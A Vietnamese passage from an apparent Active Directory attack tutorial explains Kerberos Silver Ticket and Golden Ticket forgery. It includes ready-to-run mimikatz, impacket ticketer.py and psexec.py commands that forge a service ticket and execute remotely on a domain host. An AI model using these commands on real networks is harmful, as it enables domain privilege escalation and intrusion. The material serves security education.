  Sau đó anh ta chỉ cần gửi vé này đến dịch vụ được nhắm đến cùng với một số thông  xác thực mà anh ta mã hóa bằng session key giúp anh ta tùy ý chọn trong TGS. Dịch vụ sẽ có thể giải mã TGS, trích xuất khóa phiên, giải mã thông tin xác thực và cung cấp dịch vụ cho user vì thông tin giả mạo trong PAC chỉ ra rằng người dùng là Quản trị viên miền và dịch vụ này cho phép Quản trị viên miền sử dụng nó.

![](img/silverticket.png)

```none

kerberos::golden /domain:adsec.local /user:random_user /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:0123456789abcdef0123456789abcdef /target:DESKTOP-01.adsec.local /service:cifs /ptt

ticketer.py -nthash 0123456789abcdef0123456789abcdef -domain-sid S-1-5-21-1423455951-1752654185-1824483205 -domain adsec.local -spn CIFS/DESKTOP-01.adsec.local random_user

export KRB5CCNAME='/path/to/random_user.ccache'

psexec.py -k DESKTOP-01.adsec.local

```


###  Golden Ticket

Chúng ta thấy rằng với **Vé bạc** , có thể truy cập vào dịch vụ do tài khoản miền cung cấp nếu tài khoản đó bị tấn công nhưng chúng ta có thể tiến xa hơn nữa.

Để có thể sửa đổi TGT hoặc tạo ra một TGT mới, người ta cần biết khóa đã mã hóa nó, tức là khóa KDC. Khóa này thực chất là mã băm của `krbtgt`tài khoản. Tài khoản này là một tài khoản không có quyền cụ thể (ở cấp hệ thống hoặc Active Directory) và thậm chí còn bị vô hiệu hóa. Khó được tìm thấy  bằng các tác vụ đơn giản giúp nó được bảo vệ tốt hơn.

Nếu kẻ tấn công từng tìm ra mã băm bí mật của tài khoản này, thì hắn sẽ có thể giả mạo TGT với một PAC tùy ý. Chỉ cần giả mạo một TGT nói rằng người dùng là thành viên của nhóm "Domain Admins", và thế là xong.

Chính TGT này có tên là **Golden Ticket**

